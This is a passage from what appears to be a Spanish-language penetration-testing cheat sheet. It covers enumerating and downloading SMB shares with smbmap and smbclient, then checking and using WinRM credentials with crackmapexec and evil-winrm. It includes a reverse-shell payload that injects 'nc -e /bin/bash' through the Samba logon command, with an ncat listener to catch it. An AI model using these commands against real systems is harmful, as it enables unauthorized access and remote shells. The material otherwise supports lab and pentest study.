 ```
smbmap -H <ip-address> -u <username> -p <password>
```
<br>
Especificar el nombre del recurso del servidor al cual se desea conectar.
```
smbmap -H <ip-address> -r <resourcename>
# -r -> Especificar la ruta del recurso al que se quiere conectar.
# El nombre del recurso podría ser anonymous en caso de que exista. 
```
<br>
Descargar un recurso compartido a la ruta actual.
```
smbmap -H <ip-address> --download <resourcename>/<filename>
```
<br>
Listar recursos de la máquina.
```
smbclient -L <ip-address> -N 
```  
En caso de que se presente el error: protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED al querer listar los recursos de la maquina ejecuta el siguiente comando para solucionarlo.
```
smbclient -L ipaddress -N --option 'client min protocol = NT1'
```
<br>
Conectarse a un recurso de la máquina víctima.
```
smbclient //<ip-address>/name_resource -N --option 'client min protocol = NT1'
Ej; smbclient //<ip-address>/tmp -N --option 'client min protocol = NT1'
```
<br>
Una vez conectado a un recurso de la máquina puedes ver si está habilitado el comando logon con el comando `` help ``. Si está habilitado te puedes enviar una reverse shell poniendote en escucha con netcat en el puerto 443.
```
sudo rlwrap ncat -nlvp 443

logon "/='nohup nc -e /bin/bash <ip-address> 443'"
```


<br><br>
## 5985 WinRM (Windows Remote Management)
La administración remota de windows permite que los sistemas accedan o intercambien información de gestión a través de una red común.
<br>
<br>
Para poderte conectar a los servicios remotos de windows primero debes comprobar que el usuario forme parte del grupo Remote Managment User con la herramiente crackmapexec.<br>
Si al final de la ejecución te pone un [+] pwned! significa que el usuario forma parte del grupo Remote Management User.
```
crackmapexec winrm 10.10.11.108 -u 'user' -p 'password' -> [+] pwn3d!
```
<br>
Ya solo queda conectarse al servicio remoto de windows con la herramienta evil-winrm.
```
evil-winrm -i <ip-address> -u 'user' -p 'password'
```





